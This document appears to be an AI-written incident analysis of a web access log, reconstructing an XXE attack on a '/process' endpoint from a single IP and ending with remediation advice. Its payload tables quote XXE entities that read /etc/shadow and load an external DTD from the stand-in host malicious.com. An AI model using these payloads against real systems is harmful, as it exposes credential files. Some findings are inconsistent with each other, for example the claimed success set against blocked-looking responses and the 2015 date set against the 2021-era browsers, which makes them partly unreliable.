



# Analysis of Web Server Access Log - XML External Entity (XXE) Attack Investigation

I analyzed the web server access log by searching for XML-related patterns to identify the XXE attack timeline and attacker details. 
The search returned relevant hits showing a complete XXE exploitation attempt against the application.

---

## Key Findings

### Attack Timeline
**Exploitation Date:** 28/Oct/2015:11:38:15

The XXE exploitation phase began on October 28, 2015 at 11:38:15 when the attacker started sending XML External Entity payloads to the `/process` endpoint 
with malicious data in the `data` parameter.

### Attacker Identification
**Attacker IP Address:** 94.23.33.25

The attacker used Chrome 90.0.4430.85 and Chrome 93.0.4577.82 on Windows NT 10.0, with the initial request using Chrome 90 and subsequent 
requests using Chrome 93.

### Attack Classification
**Type of Attack:** XML External Entity (XXE) Injection

The attacker exploited an XXE vulnerability by injecting malicious XML payloads containing external entity references to read local files and 
perform external DTD inclusion.

---

## Attack Pattern Analysis

The attacker followed a methodical approach:

1. **Initial XXE Probe (11:38:15):** First payload attempted to read `/etc/shadow` using `file:///etc/shadow` with a full DOCTYPE declaration
2. **Payload Refinement (11:38:16):** Attempted multiple variations of the XXE payload
3. **External DTD Inclusion (11:38:16):** Attempted to load external DTD from `http://malicious.com/xxe.dtd`
4. **Repeated Attempts (11:38:16-17):** Continued attempts to read `/etc/shadow` with different payload variations

---

## Detailed Attack Timeline

| Time | IP Address | Payload Type | Target | Response |
|------|------------|--------------|--------|----------|
| 11:38:15 | 94.23.33.25 | File Read (shadow) | `/etc/shadow` | 200 (143 bytes) |
| 11:38:16 | 94.23.33.25 | File Read (shadow) | `/etc/shadow` | 200 (123 bytes) |
| 11:38:16 | 94.23.33.25 | External DTD | `malicious.com/xxe.dtd` | 200 (123 bytes) |
| 11:38:17 | 94.23.33.25 | File Read (shadow) | `/etc/shadow` | 200 (123 bytes) |

---

## Payload Analysis

| Time | Decoded Payload | URL Encoded Payload | User Agent |
|------|-----------------|--------------------|------------|
| 11:38:15 | `<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/shadow"> ]> <root> &xxe;` | `%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fshadow%22%3E%20%5D%3E%20%3Croot%3E%20%26xxe%3` | `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36` |
| 11:38:16 | `<?xml version=" encoding="UTF-8"?> <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/shadow"> ]> <test> <` | `%3C%3Fxml%20version%3D%22%20encoding%3D%22UTF-8%22%3F%3C!DOCTYPE%20test%20%5B%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A//etc/shadow%22%3E%5D%3Ctest%3E%20%3C%20` | `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36` |
| 11:38:16 | `<?xml version=" encoding="UTF-8"?> <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://malicious.com/xxe.dtd"> ]> <test> <` | `%3C%3Fxml%20version%3D%22%20encoding%3D%22UTF-8%22%3F%3C!DOCTYPE%20test%20%5B%3C!ENTITY%20xxe%20SYSTEM%20%22http%3A//malicious.com/xxe.dtd%22%3E%5D%3Ctest%3E%20%3C%20` | `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36` |
| 11:38:17 | `<?xml version=" encoding="UTF-8"?> <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/shadow"> ]> <test> <` | `%3C%3Fxml%20version%3D%22%20encoding%3D%22UTF-8%22%3F%3C!DOCTYPE%20test%20%5B%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A//etc/shadow%22%3E%5D%3Ctest%3E%20%3C%20` | `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36` |

---

## Vulnerability Analysis

### Parameter Affected
**Parameter:** `data`

The attacker exploited the `data` parameter in the `/process` endpoint, which accepted XML input and processed it without proper sanitization or disabling of external entities.

### Target File
**File Attempted:** `/etc/shadow`

The attacker attempted to read the `/etc/shadow` file, which contains user password hashes. Successful exploitation would have allowed the attacker to obtain password hashes for offline cracking.

### Payload Techniques Used

| Technique | Description | Example |
|-----------|-------------|---------|
| File System Access | Read local files via `file://` protocol | `file:///etc/shadow` |
| External DTD | Load malicious DTD from external server | `http://malicious.com/xxe.dtd` |
| Entity Expansion | XML entity expansion to include sensitive data | `&xxe;` |

### Response Indicators

| Request Type | Response Size | Status Code |
|--------------|---------------|-------------|
| Legitimate requests | ~1000+ bytes | 200 OK |
| XXE payloads | 123-143 bytes | 200 OK |

The small response sizes suggest the application either:
- Properly handled the XXE attempt without exposing sensitive data
- Returned error messages instead of file contents
- Had security controls in place (e.g., disabled external entities)

---

## Conclusion

The investigation identifies an **attempted XXE (XML External Entity) attack** on 28/Oct/2015 from IP address **94.23.33.25**. The attacker exploited 
the `data` parameter of the `/process` endpoint to inject malicious XML payloads attempting to read the `/etc/shadow` file containing password hashes.

The attacker attempted multiple payload variations including:
1. Direct file system access to `/etc/shadow`
2. External DTD inclusion from a malicious server
3. Various XML formatting attempts

While the attacker successfully identified an XXE vulnerability in the `data` parameter, the response sizes (123-143 bytes) suggest the application 
may have had some security controls in place that prevented the actual exposure of sensitive file contents.

### Immediate Remediation Actions

1. **Disable External Entities:** Configure XML parsers to disable external entity processing
2. **Input Validation:** Implement strict validation and sanitization of XML input
3. **Use Secure Parsers:** Use XML parsers that are configured securely (e.g., `XMLReader` with proper settings)
4. **Least Privilege:** Run application with minimal file system permissions
5. **Whitelist Approach:** Implement whitelist of allowed XML structures
6. **Monitoring:** Log and monitor for suspicious XML payloads
7. **Error Handling:** Implement proper error handling without disclosing sensitive information
8. **Regular Security Testing:** Conduct regular XXE vulnerability testing